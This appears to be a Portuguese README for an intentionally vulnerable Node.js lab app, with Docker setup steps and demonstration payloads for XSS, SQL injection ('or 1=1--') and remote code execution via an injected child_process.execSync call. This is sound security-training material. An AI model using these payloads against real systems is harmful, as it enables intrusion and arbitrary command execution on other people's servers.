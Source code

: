 # Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução
Descompactação e execução dos containers por linha de comando.
```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```
Exemplo após a inicialização dos containers.
![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)


URL para acesso à aplicação.
```
http://localhost:3000
``````
![Vulnerable Node Application](images/VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS

Payload
```
/?userInput=<script>alert(1)</script>
```
Evidência
![Cross-Site Script](images/xss.png)

### SQL Injection

Payload
```
/users?username='+or+1=1--&access-token=' 
```

Evidência em uso normal do endpoint.
![SQL Injection](images/sqli.png) 


### RCE
Payload
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
``` 

Evidência
![Remote Code Execution](images/rce.png)